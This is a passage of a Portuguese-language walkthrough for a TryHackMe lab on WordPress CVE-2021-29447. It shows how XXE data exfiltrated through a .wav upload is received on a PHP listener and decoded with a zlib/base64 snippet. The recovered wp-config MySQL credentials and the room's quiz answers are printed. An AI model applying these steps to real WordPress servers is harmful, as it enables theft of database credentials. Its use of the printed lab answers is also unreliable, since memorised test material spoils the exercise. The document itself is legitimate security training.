 8° Execute novamente o processo de fazer o uploado do arquivo .wav com o comando *php -S 0.0.0.0:8001* rodando.
Uma nova mensagem criptografada é enviada.

<img src="https://github.com/patrickpca/TryHackMe/blob/master/Wordpress-%20CVE-2021-29447/img/img12.PNG" width="80%">

9° Crie novamente o arquivo encode.php, agora com a nova mensagem criptografada. -> <?php echo zlib_decode(base64_decode(‘base64here’)); ?>

A decodifciação do arquivo entrega as credenciais do MySQL 

<img src="https://github.com/patrickpca/TryHackMe/blob/master/Wordpress-%20CVE-2021-29447/img/img13.PNG" width="70%">

  ##### Questão - Based on the results of #1, what are the credentials you found? 
  ##### example: user:password
  ##### Reposta - `thedarktangent:sUp3rS3cret132`

É identificado o usuário e a senha no arquivo wp-config, como mostrado na figura.

Acesse o mysql com o comando - `mysql -h thm.com -u thedarktangent -p` -> A senha está no novo arquivo *encode.php* => sUp3rS3cret132

  ##### Questão - Enumerate and identify what is the dbms installed on the server?
  ##### Reposta - `mysql`
